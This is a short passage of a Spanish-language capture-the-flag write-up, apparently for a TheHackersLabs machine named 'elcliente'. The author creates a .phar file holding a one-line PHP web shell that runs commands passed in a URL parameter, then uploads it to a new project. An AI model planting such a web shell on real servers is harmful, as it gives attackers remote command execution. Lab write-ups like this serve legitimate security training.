 ![](assets/img/thl-writeup-elcliente/elcliente3_1.png)

* Aprovechando esto, creo un archivo .phar con código PHP para ejecutar comandos en el sistema.

```terminal
/home/kali/Documents/thl/elcliente:-$ echo "<?php system($_GET['cmd']); ?>" > shell.phar
```

* Subo este archivo malicioso en un nuevo proyecto.

![](assets/img/thl-writeup-elcliente/elcliente3_2.png)
